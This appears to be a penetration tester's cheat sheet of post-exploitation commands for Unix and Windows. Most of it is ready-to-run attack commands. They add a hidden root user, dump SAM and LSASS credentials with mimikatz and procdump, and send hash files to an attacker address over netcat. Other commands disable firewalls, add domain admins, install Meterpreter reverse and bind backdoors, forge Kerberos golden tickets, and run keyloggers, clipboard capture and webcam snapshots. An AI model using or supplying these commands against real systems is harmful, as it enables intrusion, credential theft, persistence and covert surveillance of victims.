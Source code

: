 ## File Transfer:

## Port Redirection & Tunneling:

## Active Directory:

## Persistence/Credentials:

    Unix:
        Add User:  echo root2:w08rKyoC9ECsg:0:0:/root:/bin/bash >> /etc/passwd     #password
        run post/linux/gather/hashdump

    Windows:
        -Dumping SAM file (older systems)
        pwdump or fgdump: On Meterpreter:  upload /usr/share/windows-binaries/fgdump/fgdump.exe c:\\

        Mimikatz: pull credentials from memory
          in meterpreter:  execute -H -i -c -f /root/Desktop/Mimikatz/x64/mimikatz.exe -m


        Credentials:
            SAM Files:
                Dump (if admin):  reg save hklm\sam c:\sam, reg save hklm\system c:\system,  and transfer back:  nc64.exe 10.10.14.18 4445 < SAMS   ,  nc -nvlp 4445 > SAMS
                Decrypt (Unix):  python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM [ip]
                Decrypt (Windows):  mimikatz.exe; privilege::debug; token::elevate; lsadump::sam filename1.hiv filename2.hiv
                Crack:  hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst
            MSF:  run post/windows/gather/hashdump
            Mimikatz:
                Local:  mimikatz.exe; privilege::debug; sekurlsa::logonpasswords full  \\  mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
                    In Meterpreter:  load mimikatz; msv  \\  creds_all  \\  kerberos  \\  mimikatz_command -f samdump::hashes  \\  mimikatz_command -f sekurlsa::searchPasswords
                From LSASS dump:
                    from task manager  \\  procdump -ma lsass.exe lsass.dmp  \\  Import-Module .\OutMiniDump.ps1; Get-Process lsass | Out-Minidump (https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1)
                    mimikatz “sekurlsa::minidump C:\Users\username\AppData\Local\Temp\lsass.DMP”; sekurlsa::logonPasswords

        Add User:
            net user <username> <password> /add
            net localgroup Administrators <username> /add

        RDP:
            Enable RDP Access:
                reg add “hklm\system\currentcontrolset\control\terminal server” /f /v fDenyTSConnections /t REG_DWORD /d 0
                netsh firewall set service remoteadmin enable
                netsh firewall set service remotedesktop enable
            Add RDP User (Windows):  net user <user> <pass> /add; net localgroup "Administrators" <USER> /add; net localgroup "Remote Desktop Users" <USER> /add


        Turn Off Firewall:
            Newer:  netsh advfirewall set allprofiles state off
            Older:  netsh firewall set opmode disable
        
        
        Windows:
Modules: https://www.infosecmatter.com/post-exploitation-metasploit-modules-reference/
PrivEsc:
    getsystem
    use priv
    use post/multi/recon/local_exploit_suggester  ;  use exploit/windows/local/...
Creds:
    hashdump  \\  Better:  run hashdump \ run post/windows/gather/smart_hashdump ->**copy file to /tmp
        john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
        use auxiliary/analyze/jtr_crack_fast
    GPO creds:  use post/windows/gather/credentials/gpp, set ... DOMAINS=BOOT SESSION=#
    run credcollect
    steal_token <PID> / drop_token
	Mimikatz:
		Option 1: load kiwi; creds_all  \\  creds_msv  \\  creds_kerberos   (require System)
		Option 2: load kiwi; kiwi_cmd "privilege::debug"; kiwi_cmd "sekurlsa::logonPasswords full"; kiwi_cmd "sekurlsa::credman"; kiwi_cmd "SEKURLSA::Kerberos"; kiwi_cmd "SEKURLSA::Krbtgt"; kiwi_cmd "SEKURLSA::SSP"; kiwi_cmd "SEKURLSA::Wdigest"
Persistence:
    Add User:  Local: run multicommand -cl "cmd.exe /c net user metasploit p@55w0rd /ADD","cmd.exe /c net localgroup 'Administrators' metasploit /ADD" ; Domain: run multicommand -cl "cmd.exe /c net user metasploit p@55w0rd /ADD /DOMAIN","cmd.exe /c net group "Domain Admins" metasploit /ADD /DOMAIN"
        Make Domain Admin:  run multicommand -cl 'cmd.exe /c net group "Domain admins" mossa /add /domain'; run multicommand -cl 'cmd.exe /c net group "Domain admins" /domain'
    RDP:
        run post/windows/manage/enable_rdp username=admin,password=password
            Or: run getgui -e  //  or  run getgui -u loneferret -p password  ;  then cleanup:  ex. run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
    Telnet:  run gettelnet [-e  //  -u user -p pass]
    Meterpreter Bind Backdoor:  run metsvc; use exploit/multi/handler; set PAYLOAD windows/metsvc_bind_tcp; set LPORT 31337; set RHOST 192.168.1.104; run
        Reverse Backdoor (reboot persistent):  run persistence -U -i 5 -p 443 -r 192.168.1.71; use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.71; set LPORT 443; exploit
    Golden Ticket:  load kiwi;  golden_ticket_create -u mossa -d BOOT.LAB -k (krbtgt hash last half only) -s (Domain User SID w/o last 4 digits--from enum_users) -t /tmp/ticket
        kerberos_ticket_list; kerberos_ticket_use /tmp/ticket
Hardware:
    Clipboard:  load extapi; clipboard_get_data; clipboard_monitor_start; clipboard_monitor_dump
    Keylogger:  keyscan_start; keyscan_stop; keyscan_dump  (after migrating to explorer)
    webcam_list \ webcam_snap
    screengrab
    run vnc  -  opens quick viewing session
